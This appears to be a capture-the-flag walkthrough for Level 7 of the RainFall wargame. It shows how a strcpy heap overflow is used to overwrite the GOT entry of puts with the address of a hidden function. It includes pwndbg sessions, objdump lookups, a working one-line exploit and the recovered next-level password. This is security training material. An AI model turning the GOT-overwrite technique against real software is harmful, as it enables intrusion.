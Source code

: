 # Walkthrough for Level 7

## Understanding the Binary

The binary reads the password for `level8` from a file and stores it in a global variable `c`. There is also a function
`m` that prints the contents of `c`, but this function is never called directly.
However, the binary is vulnerable to a buffer overflow because it uses the unsafe `strcpy` function to fill two
buffers. At the end of the `main` function, there is a call to `puts`, so we can overwrite the address of `puts` in the
Global Offset Table (GOT) with the address of `m`. This way, when the program calls `puts`, it will actually call `m`,
allowing us to print the contents of `c`.

## Understanding the Vulnerability

The `strcpy` function is used to copy user input as follows:
- `argv[1]` is copied to `buffer_heap_1[1]`, which has a length of eight bytes.
- `argv[2]` is copied to `buffer_heap_2[1]`, which also has a length of eight bytes.

If the user provides more than eight bytes of input in either argument, the program will overflow the buffer
and overwrite other memory locations.

## Calculating the offset

We use a cyclic pattern of 23 characters as our first argument to find two things:
- the offset needed to overwrite other memory
- the memory which is being overwritten

We add a breakpoint at `0x080485bd` which is the point just before the second call to `strcpy` in the `main` function,
and that is where the second buffer is copied.

```shell
pwndbg> b *0x080485bd
Breakpoint 1 at 0x80485bd
pwndbg> cyclic 23
aaaabaaacaaadaaaeaaafaa
pwndbg> run aaaabaaacaaadaaaeaaafaa CCCC

───────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────────────
► 0x80485bd <main+156>    call   strcpy@plt                  <strcpy@plt>
dest: 0x61616166 ('faaa')
src: 0xffffd45d ◂— 'CCCC'
...SNIP...
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l faaa
Finding cyclic pattern of 4 bytes: b'faaa' (hex: 0x66616161)
Found at offset 20
```

We find that the second `strcpy` is called with the following arguments:
- `dest`: `faaa` which is part of our cyclic pattern
- `src`: `CCCC` which is the address of the second argument passed to the binary

In `dest` we should find some random address allocated previously by malloc, but instead we find `faaa`, which is part
of our cyclic pattern. This means that with our long first argument we have overwritten `buffer_heap_2[1]` with an
arbitrary value in which `strcpy` will try to copy `CCCC`.

We find also that the offset to overwrite `buffer_heap_2[1]` is 20 bytes.

We will use this mechanism to overwrite the address of `puts` in the Global Offset Table (GOT) with the address of `m`.

## The address of `puts` in the Global Offset Table (GOT)

```shell
level7@RainFall:~$ objdump -R ./level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```
The address of `puts` in the Global Offset Table (GOT) is `0x08049928`, in little-endian `\x28\x99\x04\x08`.

## The address of the function `m`

```shell
level7@RainFall:~$ objdump -t ./level7 | grep " m$"
080484f4 g     F .text  0000002d              m
```

The address of the function `m` is `0x080484f4`, in little-endian `\xf4\x84\x04\x08`.

## Crafting the Exploit

Our exploit will consist of:
- 20 characters of offset to reach the `buffer_heap_2[1]`
- the address of `puts` in the GOT to overwrite `buffer_heap_2[1]` with it
- the address of the `m` function in little-endian format to overwrite the address of `puts` in the GOT

## Running the exploit against the binary and getting the password

```shell
level7@RainFall:~$ ./level7 $(python2 -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python2 -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1749126734
```

This gives us the password for `level8`, which can be used to log in via ssh.